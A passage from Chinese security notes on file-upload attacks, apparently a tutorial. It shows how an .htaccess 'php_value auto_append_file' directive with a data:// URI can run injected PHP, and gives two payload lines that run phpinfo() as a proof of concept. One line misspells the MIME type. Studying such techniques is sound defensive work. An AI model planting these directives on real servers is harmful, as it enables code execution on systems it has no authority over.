 ![img](文件上传.assets/1681146119148-e852fd72-f44c-49c1-a7d2-ed73776c3245.png)

### 任意代码执行

#### 通过 PHP 伪协议

这里主要用的还是 auto_prepend_file 或 auto_append_file 这两个配置项。

条件：

- allow_url_fopen 为 On
- allow_url_include 为 On
- 目标环境的当前目录中存在至少一个 PHP 文件

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
或:
php_value auto_append_file data://text/plian,%3c%3fphp+phpinfo()%3b%3f%3e
// 如果不使用base64加密则注意需要url编码
```
